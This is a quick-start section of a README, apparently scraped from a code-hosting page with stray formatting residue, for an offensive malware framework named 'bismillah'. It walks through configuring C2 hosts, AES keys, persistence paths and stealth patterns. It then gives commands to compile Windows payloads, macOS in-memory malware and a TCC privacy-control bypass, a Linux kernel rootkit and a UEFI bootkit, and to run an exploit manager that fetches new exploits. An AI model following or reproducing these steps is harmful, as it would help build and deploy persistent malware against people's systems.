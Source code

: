    ```bash

---

## Quick Start

1. **Edit `config.json`**  
   - Configure AES keys/IVs, C2 hosts/ports, persistence paths, exploit timeouts, stealth patterns, new MQTT settings, etc.  
   - You can override any field by setting `BISMILLAH_<SECTION>_<KEY>` as an environment variable.  

2. **Install Dependencies**  
   ```bash
   cd /opt/bismillah_repo
   pip3 install -r requirements.txt
#Generate/Install TLS Certificates

bash
Copy
Edit
mkdir -p certs
openssl req -newkey rsa:4096 -nodes -keyout certs/bismillah.key \
    -x509 -days 730 -out certs/bismillah.crt -subj "/CN=bismillah.local"
Compile C Payloads

bash
Copy
Edit
# Windows payloads (on Linux with MinGW‐w64)
cd windows_payloads
make

# macOS payloads (on macOS)
cd ../macos_payloads
chmod +x launchd_persistence.sh
clang -O2 -mmacosx-version-min=10.12 -o mem_malware mem_malware.c
clang -framework CoreFoundation -framework Security -lsqlite3 -o tcc_allowlist_bypass tcc_allowlist_bypass.c

# Linux rootkit
cd ../kernel_rootkit
make

# UEFI Bootkit (EDK2 environment)
cd ../uefi_bootkit
make
Initialize Exploit Manager

bash
Copy
Edit
python3 - <<EOF
from modules.exploit_manager import ExploitManager
mgr = ExploitManager()
print("Indexed exploits:", mgr.list_exploits())
new = mgr.fetch_latest_exploits()
print("Fetched new exploits:", new)
EOF

bash
Copy
Edit

   ```